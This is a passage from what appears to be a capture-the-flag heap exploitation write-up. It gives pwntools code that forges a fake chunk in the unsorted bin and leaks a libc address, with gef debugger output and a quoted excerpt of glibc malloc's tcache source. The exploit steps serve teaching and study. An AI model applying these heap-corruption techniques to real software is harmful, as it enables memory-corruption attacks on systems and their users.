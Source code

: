```python
create_chunk(0x30, data)
```
Now only remains how to allocate and free the 0x120 chunk without overwriting what we've put in it. By writing enough to reach in the stack buffer the nullbyte we placed there when we allocated the 0x30 chunk we would only overwrite the first 0x28 bytes (notice that behind this nullbyte a string of size 0x118 continues), with the fake chunk safe at offset 0xf0.
```python
log.info("Allocating 0x120 (moving to unsorted)")
# Reach the nullbyte placed when allocating 0x30
r.write(b"A" * (0x30 - 8 + 1)); sleep(deltat)
```
And, sure enough, with gef we can see that everything behaved seamlessly, the program keeps running and we have *our* baby in the unsorted bin:
```
[+] unsorted_bins[0]: fw=0x555555604e10, bk=0x555555604e10
 →   Chunk(addr=0x555555604e20, size=0x120, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
```
Which also means that it contains a couple of pointers to the libc:
```
0x555555604e20: 0x00007ffff7bebca0  0x00007ffff7bebca0
```
Check this out, the chunk is still of size 0x120 even though we changed its size to 0x100, this is because this isn't really *our* chunk, this is the fake previous one (0x20) merged with *ours* (now 0x100). <span id="3_"><a href="#3"><sup>3</sup></a> Shall we just `r.write(b'A')`?

Huh, nope, I doesn't work, let's see why. If I place a breakpoint at the call to `malloc()` I can see it is in fact returning *our* chunk but...
```
$rax   : 0x0000555555604e20  →  0x0000000000000000
```
what the *actual* **fuck**? Where the is my pointer? Why does it contain a NULL pointer? Ok, let me calm down, we will try to understand it later, for now I just realized that it is only the `fwd` pointer, the `bck` pointer is still there, which means we only need to step over the dead body of the first pointer, simple enough.
```python
log.info("Allocating 0x120 (leaking)")
r.clean()
r.write(b"A" * 8); sleep(deltat)
libc = int.from_bytes(r.read()[-6:], "little") - 0x3ebca0
log.info("Libc : 0x%x" % libc)
```
Great, we got a sweet libc address. We got this!

### Where did my pointer go? (or a deeper understanding of `malloc()`'s nonsenseness)
And I also found the reason why our pointer gets lost in the darkness: `malloc()` when iterating over the unsorted bin
```c
    if (size == nb)
    {
        set_inuse_bit_at_offset (victim, size);
        if (av != &main_arena)
            set_non_main_arena (victim);
#if USE_TCACHE
        /* Fill cache first, return to user only if cache fills.
        We may return one of these chunks later.  */
        if (tcache_nb
            && tcache->counts[tc_idx] < mp_.tcache_count)
        {
            tcache_put (victim, tc_idx);
            return_cached = 1;
            continue;
        }
        // [...]
```